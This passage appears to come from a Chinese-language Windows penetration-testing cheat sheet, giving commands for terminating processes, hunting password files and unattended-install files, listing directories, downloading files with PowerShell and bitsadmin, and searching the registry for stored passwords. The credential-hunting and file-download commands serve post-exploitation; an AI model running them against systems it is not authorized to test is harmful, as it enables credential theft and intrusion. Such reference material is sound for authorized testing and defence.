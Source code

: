 - 结束程序 `wmic process where name = "iexpore.exe" call terminate`

#### 	7.检索敏感文件

```
利用dir命令
dir /b /s [目标]
password.txt  *.doc/ppt/xls/docx/xlsx   config.*filesystem
/B 使用空格式(没有标题信息或摘要)。
/C 在文件大小中显示千位数分隔符。这是默认值。用 /-C 来禁用分隔符显示。
利用findstr命令
findstr /si password *.xml *.ini *.txt
findstr /si login *.xml *.ini *.txt 

无人值守安装日志文件（通常包含base64编码的密码）
C:\sysprep.inf
C:\sysprep\sysprep.xml
C:\Windows\Panther\Unattend\Unattended.xml
C:\Windows\Panther\Unattend.xml
```

#### 8.目录文件操作

bat 中 for 的参数 ：`` /d(查询目录,只搜索文件夹，不搜索文件)`` `` /r（从当前目录或指定目录开始，深入所有子目录）`` `` /f``（搜索文件并获取问价内容） `` /l``

```
1.列出指定目录内容
for /d %i in (D:\www\*) do @echo %i
2.以当前目录为搜索路径，搜索指定文件内容
for /r %i in (*.exe) do @echo %i
3.显示指定文件中的内容
for /f %i in (指定文件路径) do @echo %i
```

#### 9.Windows7及以上的利用bitsadmin和powershell下载指定文件的命令

```
powershell>    (new-object System.Net.WebClient).DownloadFile('url文件路径'，'生成文件名')  #生成在当前路径下
bitsadmin /transfern url文件路径 生成文件路径+文件名
```

#### 10.注册表关键字搜索

```
/f 指定关键字，默认为*
/t 指定注册表值数据类型
/s 循环遍历搜索值和子项
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```

#### 11.系统权限配置

```
cacls c:\ 
cacls [指定路径]
```
